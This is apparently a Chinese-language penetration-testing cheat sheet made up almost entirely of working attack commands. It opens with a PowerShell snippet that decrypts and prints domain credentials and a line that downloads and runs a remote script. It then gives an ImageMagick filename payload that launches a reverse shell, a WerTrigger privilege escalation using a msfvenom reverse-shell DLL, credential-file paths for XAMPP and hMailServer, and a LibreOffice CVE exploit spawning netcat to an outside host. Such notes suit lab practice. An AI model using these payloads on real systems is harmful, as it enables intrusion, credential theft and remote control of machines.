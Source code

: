 ```
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
执行 `iex(new-object net.webclinet).downloadstring('http://10.10.14.16:8888/xxx.ps1')`  

##### XAMPP 凭据文件
```
type C:\xampp\mysql\bin\my.ini
```


##### ImageMagick RCE
```bash
cp 1.png '|smile"`echo <base64_bash_reverse_shell> | base64 -d | bash`".jpg'
rlwrap nc -lvvnp 2233
```


##### WerTrigger  Local Privilege Escalation
https://github.com/sailay1996/WerTrigger/tree/master
通常是遇到一个服务可以写入文件后执行的本地权限提升操作，例 mysql 是以 root 身份运行的，创建的文件 icacls 拥有 I F 权限既可以尝试。
```bash
git clone https://github.com/sailay1996/WerTrigger.git
```
创建 DLL
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=1337 -f dll > phoneinfo.dll
```

将文件都写入到 `C:\windows\system32` : phoneinfo.dll, Report.wer, WerTrigger.exe
然后执行 WerTrigger.exe
```powershell
C:\windows\system32\WerTrigger.exe
```
可能会报告失败，但是应该会执行 rev shell cmd


##### hMailServer + web LFI
可能的 hMailServer 凭据文件路径：
```
../../Program%20Files%20(x86)/hMailServer/bin/hMailServer.ini
```


##### LibreOffice Version 7.4.0.1 Exploit
https://github.com/elweth-sec/CVE-2023-2255
上传 nc64.exe 至 programdata 文件夹
```bash
python3 ./CVE-2023-2255.py --cmd 'cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.17 2233' --output 'exp1.odt'
```
